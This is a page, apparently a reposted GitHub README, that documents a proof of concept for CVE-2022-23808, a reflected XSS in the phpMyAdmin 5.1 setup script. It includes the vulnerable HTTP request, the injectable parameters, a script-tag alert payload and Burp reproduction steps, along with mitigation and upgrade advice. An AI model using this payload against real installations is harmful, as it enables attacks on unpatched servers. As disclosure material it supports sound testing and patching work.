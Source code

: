 # CVE-2022-23808

phpMyAdmin XSS 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/dipakpanchal456](https://github.com/dipakpanchal456) |
| Url      | [https://github.com/dipakpanchal456/CVE-2022-23808](https://github.com/dipakpanchal456/CVE-2022-23808)                                               |
| Stars    | 97                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* bugbounty* cross-site-scripting* database* exploit* exploitation* hacking* infosec* owasp* owasp-top-10* pentesting* phpmyadmin* poc* redteam* redteaming* vulnerability* xss* zeroday

</details>

## Readme

# phpMyAdmin Exploit

**Exploit Title :** phpMyAdmin 5.1.1 - XSS (Cross-site Scripting)                                                          
**Exploit Author :** [Dipak Panchal](https://twitter.com/DipakPanchal05) **([@th3.d1p4k](https://instagram.com/th3.d1p4k))**                 
**Vendor Homepage :** https://www.phpmyadmin.net                      
**Software Link :** https://www.phpmyadmin.net/files/5.1.1/                 
**Affected Versions :** phpMyAdmin versions of the 5.1 branch prior to 5.1.2 are affected.                
**Tested on :** Windows 10 and Linux    
**CVE :** [CVE-2022-23808](https://nvd.nist.gov/vuln/detail/CVE-2022-23808)       
**Reference :** https://www.phpmyadmin.net/security/PMASA-2022-2/         

### **Description:**
A series of weaknesses has been discovered that could allow an attacker to inject malicious code in to aspects of the setup script, which can allow XSS or HTML injection.

### **Request:**

```
GET /phpmyadmin/setup/index.php?page=servers&mode=test&id=test  HTTP/1.1      
Host: 127.0.0.1:1234       
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0      
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8      
Accept-Language: en-US,en;q=0.5     
Connection: close   
Cookie: pma_lang=en; phpMyAdmin=fs55xxxxxxx; pma_lang=en; pmaUser-1=xxxxxxxxxxxxxxxxxxxxxxxxxxx; phpMyAdmin=xxxxxxxxxxxxxxx; pmaAuth-1=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx           
Upgrade-Insecure-Requests: 1          
Cache-Control: max-age=0          
```

### **Vulnerable Parameter(s) :** 
* mode
* id

### **Payload :**
```
">'><script>alert(document.domain)</script>
```

### **Steps to reproduce :**

1. Capture above reuqest in burp.
2. Replace/Change XSS payload with vulnerable parameters.
3. Click on send and show response in browser.
4. You'll get popup!

## **Proof of Concept :**
![2022-01-26_21h45_23](https://user-images.githubusercontent.com/31427462/152356009-88cb5947-6abf-481f-9cc1-58c8cf4a6a12.png)


### **Mitigation :**
A phpMyAdmin installation with a configuration file config.inc.php will not allow access to the setup script, which in turn mitigates this attack.


### **Fix :**
Upgrade to phpMyAdmin 5.1.2 or newer or apply patch listed below.



## Get the content

```
git clone https://github.com/dipakpanchal456/CVE-2022-23808
cd CVE-2022-23808
```

{% embed url="https://github.com/dipakpanchal456/CVE-2022-23808" %}

<figure><img src="https://avatars.githubusercontent.com/u/31427462?v=4" alt=""><figcaption><p>dipakpanchal456</p></figcaption></figure>

